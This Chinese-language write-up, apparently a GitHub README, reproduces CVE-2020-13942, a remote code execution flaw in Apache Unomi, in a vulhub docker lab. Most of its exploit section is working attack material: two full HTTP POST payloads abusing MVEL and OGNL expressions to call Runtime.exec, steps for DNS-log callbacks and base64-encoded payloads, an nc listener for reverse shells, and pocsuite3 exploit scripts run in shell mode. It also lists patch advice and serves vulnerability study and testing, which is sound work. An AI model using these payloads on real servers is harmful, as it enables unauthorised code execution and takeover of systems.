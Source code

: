 # CVE-2020-13942 Apache Unomi 远程表达式代码执行漏洞

##  0x00 漏洞描述

Apache Unomi是一个Java开源客户数据平台，这是一个Java服务器，旨在管理客户，潜在顾客和访问者的数据，并帮助个性化客户体验。Unomi可用于在非常不同的系统（例如CMS，CRM，问题跟踪器，本机移动应用程序等）中集成个性化和配置文件管理。
在Apache Unomi 1.5.1版本之前，攻击者可以通过精心构造的MVEL或ONGl表达式来发送恶意请求，使得Unomi服务器执行任意代码，漏洞对应编号为CVE-2020-11975，而CVE-2020-13942漏洞是对CVE-2020-11975漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，在服务器执行任意代码。

## 0x01 影响版本

Apache Unomi < 1.5.2

## 0x02 修复建议

1、尽可能避免将用户数据放入表达式解释器中

2、建议升级至最新版本

## 0x03 环境搭建

1、下载地址：

`https://github.com/vulhub/vulhub/tree/master/unomi/CVE-2020-13942`

`cd CVE-2020-13942`

`docker-compose up -d`

![](images/1.png)

执行上述docker指令后，服务也启动了，占用8181端口。

![](images/2.png)

2、访问`https://your-ip:8181/`出现以下页面，证明测试环境部署成功：

![](images/3.png)



## 0x04 漏洞利用

### 漏洞复现

POC1:

```http
POST /context.json HTTP/1.1
Host: 192.168.52.128:8181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Length: 548

{
    "filters": [
        {
            "id": "6666",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\" command\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "6666"
}
```

POC2:

```http
POST /context.json HTTP/1.1
Host: 192.168.52.128:8181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Length: 548

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\" command\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"6666"
}
```

1、到`http://www.dnslog.cn/`获取子域名

![](images/4.png)

2、到`http://www.jackson-t.ca/runtime-exec-payloads.html`将payload进行base64编码

![](images/5.png)

3、将上述编码后的payload替换到POC1报文中command，使用burpsuite发送请求：

![](images/6.png)

4、到`http://www.dnslog.cn/`刷新日志

![](images/7.png)

5、到`http://www.jackson-t.ca/runtime-exec-payloads.html`将payload2进行base64编码

![](images/8.png)

6、将上述编码后的payload2替换到POC2报文中command，使用burpsuite发送请求：

![](images/9.png)

7、到`http://www.dnslog.cn/`刷新日志

![](images/10.png)

### 反弹shell

1、在本地cmd或powershell设置nc监听指定端口6666

`nc -lvp 6666`

2、到`http://www.jackson-t.ca/runtime-exec-payloads.html`将getshell的payload3进行base64编码

![](images/11.png)

3、将上述编码后的payload3替换到POC1报文中command，使用burpsuite发送请求：

![](images/12.png)

4、getshell成功，本地获取服务器控制：

![](images/13.png)

5、在本地cmd或powershell设置nc监听指定端口7777

`nc -lvp 7777`

6、到`http://www.jackson-t.ca/runtime-exec-payloads.html`将getshell的payload4进行base64编码

![](images/14.png)

7、将上述编码后的payload4替换到POC2报文中command，使用burpsuite发送请求：

![](images/15.png)

8、getshell成功，本地获取服务器控制：

![](images/16.png)

## 0x05 利用脚本

pocsuite3脚本exp：

`https://github.com/A11an10/poc/blob/main/CVE-2020-13942-poc/apache_unomi_cve202013942_poc1.py`

`https://github.com/A11an10/poc/blob/main/CVE-2020-13942-poc/apache_unomi_cve202013942_poc2.py`

### verify模式：

`pocsuite -r .\apache_unomi_cve202013942_poc1.py -u http://IP:PORT --verify`

![](images/17.png)

`pocsuite -r .\apache_unomi_cve202013942_poc2.py -u http://IP:PORT --verify`

![](images/18.png)

### shell模式：

`pocsuite -r .\apache_unomi_cve202013942_poc1.py -u http://IP:PORT --shell`

![](images/19.png)

`pocsuite -r .\apache_unomi_cve202013942_poc2.py -u http://IP:PORT --shell`

![](images/20.png)

